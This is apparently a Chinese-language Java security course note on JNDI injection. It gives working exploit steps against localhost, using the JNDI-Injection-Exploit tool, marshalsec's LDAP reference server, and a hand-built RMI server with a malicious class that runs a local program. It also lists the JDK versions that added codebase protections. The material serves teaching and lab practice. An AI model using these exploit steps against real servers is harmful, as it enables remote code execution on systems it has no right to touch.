



|       |                                                        |
| ----- | ------------------------------------------------------ |
| 协议    | 作用                                                     |
| LDAP  | 轻量级目录访问协议，约定了 Client 与 Server 之间的信息交互格式、使用的端口号、认证方式等内容 |
| RMI   | JAVA 远程方法协议，该协议用于远程调用应用程序编程接口，使客户机上运行的程序可以调用远程服务器上的对象  |
| DNS   | 域名服务                                                   |
| CORBA | 公共对象请求代理体系结构                                           |
## JNDI注入

JNDI全称为 Java Naming and DirectoryInterface（Java命名和目录接口），是一组应用程序接口，为开发人员查找和访问各种资源提供了统一的通用接口，可以用来定义用户、网络、机器、对象和服务等各种资源。JNDI支持的服务主要有：DNS、LDAP、CORBA、RMI等。

RMI：远程方法调用注册表

LDAP：轻量级目录访问协议

### 工具注入

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc" -A 127.0.0.1



### 半工具注入

Test.java

```
import java.io.IOException;  
  
public class Test {  
    public Test() throws IOException {  
        Runtime.getRuntime().exec("mstsc");  
    }  
}
```

用javac编译成class文件

在class所在文件夹开放访问服务

python -m http.server 7777

利用工具

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://0127.0.0.1:7777/#Test

注入ldap://127.0.0.1:1389/Test

### 纯手工注入

JNDIServer

```
import com.sun.jndi.rmi.registry.ReferenceWrapper;  
  
import javax.naming.NamingException;  
import javax.naming.Reference;  
import java.rmi.RemoteException;  
import java.rmi.registry.LocateRegistry;  
import java.rmi.registry.Registry;  
  
public class JndiServer {  
    public static void main(String[] args) throws RemoteException, NamingException {  
        Registry registry = LocateRegistry.createRegistry(7788);  
        Reference reference = new Reference("Test", "Test", "http://127.0.0.1:7777");  
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);  
        registry.rebind("Hello", referenceWrapper);  
  
    }  
}
```

python在恶意类文件夹下开放7777端口

访问ldap://127.0.0.1:7788/Hello

## 高版本绕过

DK 6u45、7u21之后：

java.rmi.server.useCodebaseOnly的默认值被设置为true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前JVM的java.rmi.server.codebase指定路径加载类文件。使用这个属性来防止客户端VM从其他Codebase地址上动态加载类，增加RMI ClassLoader安全性。

JDK 6u141、7u131、8u121之后：

增加了com.sun.jndi.rmi.object.trustURLCodebase选项，默认为false，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞，但依然可以通过指定URI为LDAP协议来进行JNDI注入攻击。

JDK 6u211、7u201、8u191之后：

增加了com.sun.jndi.ldap.object.trustURLCodebase选项，默认为false，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了。

高版本绕过：

见后续Java安全篇章课程将讲到


